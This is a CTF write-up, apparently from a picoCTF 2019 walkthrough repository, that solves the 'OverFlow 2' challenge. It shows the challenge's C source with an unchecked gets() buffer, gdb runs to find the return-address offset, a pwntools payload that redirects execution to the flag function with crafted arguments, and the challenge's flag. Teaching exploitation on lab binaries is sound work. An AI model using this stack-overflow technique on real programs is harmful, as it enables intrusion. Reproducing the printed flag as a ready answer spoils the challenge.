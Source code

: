 # OverFlow 2
250 points

### Description
*"Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc on the shell server. Source."*

### Solution
For this problem, I'm going to assume you know how function arguments, return address, etc., are layed out in the stack. If you aren't familiar with this, check out my walkthrough for [OverFlow 1](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%234%20-%20OverFlow%201.md). Here's the source code for the program associated with this problem:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

This problem is very similar to OverFlow 1, but this time the `flag` function has arguments. Remember, the stack for a function call looks like this:

![C generic function call stack layout.png](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/raw/C_generic_function_call_stack_layout.png)

Keep in mind, the "top" of the stack is the bottom of this picture. So, we will be able to overwrite the return address and the function arguments. We're going to use a trick with gdb to quickly figure out how many characters we need in order to overwrite the return address. We know we'll need at least 176 characters, since that's the size of `buf`. From there, we can just add characters in increments of 4 until we start overwriting the return address.
```bash
$ gdb vuln
(gdb) run <<< $(python -c "print('a'*(176+4))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+4))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[Inferior 1 (process 229061) exited normally]
(gdb) run <<< $(python -c "print('a'*(176+8))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+8))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()
(gdb) run <<< $(python -c "print('a'*(176+12))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+12))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGILL, Illegal instruction.
0x08048700 in main ()
(gdb) run <<< $(python -c "print('a'*(176+16))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+16))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

There we go. We started overwriting the return address exactly after the 12th extra character. So, we need 12 characters between `buf` and the return address. Let's get that return address:
```bash
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
```

When `flag` is called, the process will expect a return address to be on the top of the stack, above (or below, depending how you look at it) the parameters for `flag`. Since this return won't be used until after the flag is printed out, we can just fill it with bogus characters.

Finally we have to put our parameters. We will use the `p32` function from [pwntools](http://docs.pwntools.com/en/latest/) to convert the parameters and the return address to the little-endian format that we need.
```
$ python -c "from pwn import *; print('a'*(176+12) + p32(0x080485e6) + 'aaaa' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaa�aaaaﾭ�
```

This will give you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{arg5_and_r3turn5e919413c}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
